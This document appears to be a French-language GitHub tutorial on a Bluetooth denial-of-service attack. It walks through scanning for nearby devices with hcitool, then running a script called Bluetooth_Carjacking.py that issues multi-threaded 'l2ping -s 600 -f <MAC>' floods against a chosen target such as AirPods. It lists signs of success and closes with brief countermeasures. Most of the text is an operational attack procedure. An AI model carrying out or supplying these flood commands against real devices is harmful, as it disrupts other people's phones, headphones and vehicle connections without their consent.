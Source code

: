 ### Attaque de Déni de Service (DoS) Bluetooth  

---

### 1. Présentation de l'attaque  
L’attaque de déni de service (DoS) Bluetooth vise à perturber le fonctionnement d’un appareil Bluetooth cible en saturant son protocole de communication. Cette méthode exploite des outils tels que **hcitool** et **hciconfig**, combinés avec un script Python (**Bluetooth_Carjacking.py**), pour lancer une attaque intensive basée sur des paquets envoyés rapidement et en grande quantité.  

#### Objectifs principaux :  
- Bloquer ou ralentir les appareils Bluetooth cibles.  
- Perturber les connexions établies avec d'autres périphériques.  
- Démontrer la vulnérabilité des protocoles Bluetooth.  

---

### 2. Préparation de l’attaque  

#### Prérequis :  
- Un ordinateur ou une machine virtuelle Linux avec une interface Bluetooth (supportant **l2ping**, **hciconfig**, et **hcitool**).  
- Le script Python **Bluetooth_Carjacking.py** disponible et exécuté en tant qu’administrateur.  

#### Étapes préparatoires :  
1. **Installation des outils nécessaires** :  
   Assurez-vous que les outils Bluetooth requis sont installés dans notre cas, elle est installée de base sur l'OS. :  
   ```bash
   sudo apt-get install bluez
   ```  

2. **Activation de l’interface Bluetooth** :  
   Vérifiez que votre interface Bluetooth est activée avec la commande suivante qui va nous permettre de voir voir les paramètres de notre carte Bluetooth :  
   ```bash
   hciconfig hci0 up
   hciconfig -a
   ```
   ![image](https://github.com/user-attachments/assets/15f5a4b2-c940-415f-a323-d30a5badcfa4)

   On voit que l'interface Bluetooth tel que le BUS qui est dans notre cass USB, ainsi que l'adresse MAC, les différents MTU ( Maximal Transmission Unit ) avec l'état de la carte qui est démarré dans notre cas UP et qui est scanné avec RUNNING PSCAN. Le nombre de bits reçus et envoyés grâce à celle ci ainsi que le type de paquet échangés etc.

3. **Scan des périphériques à proximité** :  
   Lancez un scan Bluetooth pour détecter les appareils dans votre environnement :  
   ```bash
   hcitool scan
   ```  
   Vous obtiendrez une liste des adresses MAC des appareils détectés. On cherchera dans notre cas des écouteurs sans fil Apple Airpods Pro 2
   
---

### 3. Étapes de l’attaque  

#### 3.1 Exécution du script **Bluetooth_Carjacking.py**  
Le script permet d’automatiser la découverte, la configuration, et l’envoi de paquets DoS.  

1. Lancez le script :  
   ```bash
   python3 Bluetooth_Carjacking.py
   ```  

2. Suivez les étapes interactives :  
   - Acceptez les avertissements légaux.  
   - Sélectionnez la cible (par ID ou adresse MAC).  
   - Définissez la taille des paquets à envoyer (ex. : 600 octets).  
   - Déterminez le nombre de threads pour maximiser l’effet de l’attaque.  

#### 3.2 Commande générée par le script :  
Une fois configuré, le script exécute des commandes comme :  
```bash
l2ping -i hci0 -s <taille_paquets> -f <adresse_MAC>
```  
Par exemple :  
```bash
l2ping -i hci0 -s 600 -f 00:11:22:33:44:55
```  

#### 3.3 Exécution multi-threadée  
Le script crée plusieurs threads pour intensifier l’attaque, ce qui se traduit par une surcharge du périphérique cible.  

---

### 4. Phase de test  

1. **Configuration de l’environnement de test** :  
   - Un smartphone Android, un iPhone ou un PC avec Bluetooth activé.  
   - Lancez l’attaque en utilisant une machine Linux avec Bluetooth fonctionnel.  

2. **Indicateurs de succès** :  
   - Le périphérique cible affiche des erreurs de connexion ou des notifications de déconnexion.  
   - Les appareils associés (casques, montres, etc.) perdent la connexion.  
   - Le périphérique cible redémarre ou désactive temporairement son Bluetooth.  

---

### 5. Contre-mesures  

#### Pour les utilisateurs :  
- Désactivez le Bluetooth lorsqu’il n’est pas nécessaire.  
- Utilisez des appareils équipés des dernières versions de Bluetooth avec des protections avancées.  

#### Pour les fabricants :  
- Implémentez des limitations sur la fréquence des paquets entrants.  
- Adoptez des protocoles sécurisés contre les attaques DoS (ex. : contrôle du trafic Bluetooth).  

---

### 6. Conclusion  

L'attaque DoS Bluetooth exploitant des outils comme **hcitool**/**hciconfig** et des scripts automatisés montre les failles des anciens standards Bluetooth. En réponse, les fabricants doivent renforcer les mécanismes de sécurité dans leurs implémentations des protocoles Bluetooth.
